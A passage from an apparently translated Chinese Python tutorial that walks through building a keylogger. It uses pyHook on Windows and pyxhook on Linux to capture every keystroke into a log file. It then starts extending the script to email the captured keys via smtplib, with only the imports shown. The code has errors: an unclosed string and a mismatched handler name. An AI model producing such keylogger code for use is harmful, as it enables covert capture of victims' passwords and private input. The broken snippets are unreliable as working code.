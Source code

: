 在这里，我们实例化`pyhook`管理器：

```py
hooks_manager = pyHook.HookManager() 

```

在每次按键时调用键盘事件函数：

```py
hooks_manager.KeyDown = OnKeyboardEvent 
hooks_manager.HookKeyboard() 
pythoncom.PumpMessages() 

```

这将在 Windows 系统中工作。要在 Linux 中使用，我们必顈依赖另一个模块：`pyxhook`。您可以从[`github.com/JeffHoogland/pyxhook`](https://github.com/JeffHoogland/pyxhook)获取此模块。

使用`pyxhook`，您可以重写前面的脚本以在 Linux 中使用：

```py
import pyxhook 
file_log=/home/rejah/Desktop/file.log' 
def OnKeyboardEvent(event): 
   k = event.Key 

    if k == "space": k = " " 

   with open(file_log, 'a+') as keylogging: 
      keylogging.write('%s\n' % k)   

#instantiate HookManager class 
hooks_manager = pyxhook.HookManager() 

#listen to all keystrokes 
hooks_manager.KeyDown=OnKeyPress 

#hook the keyboard 
hooks_manager.HookKeyboard() 

#start the session 
hooks_manager.start() 

```

我们可以改进脚本以将按键记录到远程服务器或处理特定的按键。

要将记录的按键发送到电子邮件，我们可以使用`smtplib`模块。我们需要导入所需的模块：

```py
import time 
import datetime 
import smtplib 
from email.mime.text import MIMEText

```
